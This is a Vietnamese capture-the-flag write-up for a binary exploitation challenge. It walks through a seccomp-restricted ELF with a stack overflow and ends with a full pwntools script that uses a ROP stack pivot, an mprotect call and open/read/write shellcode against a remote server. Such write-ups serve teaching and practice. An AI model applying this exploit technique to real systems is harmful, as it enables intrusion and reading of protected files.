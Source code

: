 # PWN01

![img](./assets/overview.png)

## OVERVIEW

- Challenge cho chúng ta một file ELF 64-bit. Bên dưới là thông tin của file

![img](./assets/file_info.png)

- Tiếp theo mình cho file này vào ida để decompile nó xem bên trong nó thực hiện những gì.

![img](./assets/main.png)

- Hàm main đầu tiên `setbuf()` cho các file, sau đó gọi đến hàm `init_seccomp()`.
- Kiểm tra hàm `init_seccomp()`, mình biết được hàm tạo ra những quy tắc cho file, cụ thể ở đây là không cho phép sử dụng lệnh gọi `execve (0x3b)` và một số quy tắc khác với hàm `bpf()` mà mình chưa rõ (Cũng vì hàm này nên cũng tiêu tốn khá nhiều thời gian giải bài của mình :v).

![img](./assets/seccomp-tools.png)

- Tuy nhiên từ đây, ta biết là gần như chúng ta không thể lấy được shell đang chạy chương trình.
- Tiếp trong hàm main, ta có 2 lệnh in màn hình, lệnh nhập cho biến nm với đầu vào `256` ký tự, in tiếp ra màn hình thông báo và lệnh `read(0, v6, 0x90);`, lệnh này gây buffer overflow vì biến v6 được khởi tạo có `96` bytes. Như vậy là mình có thể ghi đè thêm `0x30 bytes`.
- Và sau đó là hàm `is_this_funny()` thực hiện việc kiểm tra `11` ký tự đầu của chuỗi `v6` xem có đúng bằng với chuỗi "I'm weebiii" không. Nếu không thì sẽ thực hiện thoát chương trình ngay. Còn nếu có thì chương trình được thực hiện tiếp đến khi thoát hàm main.

![img](./assets/is_this_funny.png)

- Mình có rà soát lại các hàm khác và tìm được một hàm `winwin()`, tuy nhiên chúng ta đã không thể dùng lời gọi `0x3b` để lấy được shell rồi :v.

![img](./assets/winwin.png)

## IDEA

- Mình sẽ dùng lỗi buffer overflow để tạo một đoạn ROP gadget chuyển hướng `RIP` về địa chỉ của `nm`, tại `nm` mình sẽ lưu trữ các địa chỉ của các ROP gadget khác.
- Các lệnh này đầu tiên sẽ thay đổi địa chỉ của con trỏ `RSP`, biến vùng nhớ của `nm` trở thành stack "ảo" để chúng ta thực hiện chuỗi các gadget khác đằng sau đó, như vậy là mình có thể thực hiện ROP thoải mái hơn.
- Mình sẽ chia `nm` thành 3 phần, phần đầu dùng để chứa địa chỉ của các ROP gadget, phần thứ 2 sẽ dùng để chứa shellcode, phần thứ 3 thì mình sẽ dùng để chứa data cho shellcode.
- Do chúng ta không thể gọi đến lệnh lấy shell, nên mình sẽ thử in ra các file trên server xem có tìm được flag không (Thật ra đây là ý tưởng cuối cùng mình có thể làm).

## Details:

- Mình dư ra `48 bytes` khi lấp đầy được biến `v6`, mình cần `8 bytes` ghi đè `RBP` để tới được phần địa chỉ `RET` của hàm `main`. Như vậy là mình còn `40 bytes` để thao tác.
- Thật may là file này được compile với `statically linked`, tức là file đã chứa hầu hết các hàm của thư viện, điều này sẽ thuận tiện cho việc tìm các gadget hơn.
- Dưới đây là những địa chỉ và giá trị hữu ích mà mình tìm được để thực hiện việc khai thác. 

![img](./assets/rop_list.png)

- Đầu tiên mình sẽ xây dựng payload cho việc ghi dữ liệu vào `nm`.

![img](./assets/nm_input.png)

- Ở đây mình sử dụng `16 bytes` đầu cho việc điền tên file, vì mình không biết tên file flag là gì, nên mình sẽ dành `16 bytes` cho việc thử tên.
- Sau đó là gadget pop `RSP`, lệnh này sẽ thay đổi địa chỉ trong `RSP` thành giá trị nào đó (lúc này `RSP` vẫn trỏ lên stack nên giá trị truyền vào `RSP` sẽ nằm trên stack).
- Sau đó là các gadget truyền đối số vào các thanh ghi và thực hiện `mprotect(data_segment, 0x2000, 7);` lệnh này sẽ thực hiện set quyền `rwx` cho cả phân đoạn `data` (chứa cả `nm`). Mình phải làm điều này vì file đã bật `NX` (không cho phép có phân đoạn nhớ nào có cả thuộc tính ghi và thực thi).
- Sau khi thực hiện lệnh `mprotect();` xong thì mình sẽ nhảy đến vùng nhớ của shellcode để thực thi shellcode.
- Đây sẽ là tên file mình sử dụng.

![img](./assets/file_and_shellcode.png)

- Shellcode của mình thực hiện việc mở file có tên trong biến file, và sau đó đọc `0x100 bytes` trong file đó và ghi vào địa chỉ `0x4d73d0`, phần này là phần vùng nhớ cuối của biến `nm`. Tiếp theo là phần in ra dữ liệu tại địa chỉ `0x4d73d0`.

![img](./assets/shellcode.png)

- Sau đó mình sẽ gộp 2 phần ROP và shellcode vào là được payload để truyền vào biến `nm` rồi.
- Còn biến `v6`, mình sẽ ghi đoạn đầu đúng như chuỗi trong hàm `is_this_funny();` để chương trình không chạy vào hàm `exit();`. Sau đó là phần padding `(0x68-11) bytes` để chúng ta đến được vùng nhớ `RET` của `main`.

![img](./assets/payload.png)

- Chuỗi các gadget mình sử dụng sẽ set địa chỉ bắt đầu của phần ROP trong `nm` vào `RSI`, và sau đó sẽ chuyển hướng `RIP` đến vùng nhớ đó thực hiện các lệnh trong ROP. 
- Tuy nhiên sau khi chuyển hướng `RIP` đến vùng nhớ của `nm` thì chúng ta vẫn phải thay đổi tiếp `RSP` để thực hiện tạo một stack "ảo", do đó sau lệnh `jmp rsi`, mình sẽ để địa chỉ tiếp theo trong ROP trên `nm`.

- Đây là script dùng để khai thác.

```python
from pwn import *
#----------------------------------------------
# Register pop gadget
pop_rsi     = 0x4021e4 # : pop rsi ; ret
pop_rdx     = 0x450b6d # : pop rdx ; ret
pop_rdi     = 0x4033e1 # : pop rdi ; ret
mtf         = 0x401dc0 # : pop rsp ; ret

# Change RIP gadget
jmp_ptr_rsi = 0x486638 # : jmp qword ptr [rsi]

# Address
nm_rop  = 0x4D7330 # Start of ROP chain in nm
mprotec = 0x452E50 # mprotec address

start_s = 0x4d6000 # start segment for mproc
size_s  = 0x2000   # size that want to set
per_s   = 7        # mode rwx
sh_addr = 0x4d7378 # shellcode's address

# Data
file    = b"flag"
shellcode = b"\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x20\x73\x4D\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\x0F\x05\x48\x89\xC7\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05"
#----------------------------------------------
# Code Start
p = remote("167.172.80.186", 6666)
p.recvuntil(b"> ")

ROP = file + b"\0"*(16-len(file)) + p64(mtf) 
ROP += p64(pop_rdi) + p64(start_s) 
ROP += p64(pop_rsi) + p64(size_s) 
ROP += p64(pop_rdx) + p64(per_s) 
ROP += p64(mprotec)
ROP += p64(sh_addr) 

p.send(ROP + shellcode)

p.recvuntil(b"> ")

payload = b"I'm weebiii" + b"a"*(0x68-11)
payload += p64(pop_rsi) + p64(nm_rop) 
payload += p64(jmp_ptr_rsi) 
payload += p64(nm_rop + 8)

p.send(payload)

p.interactive()

```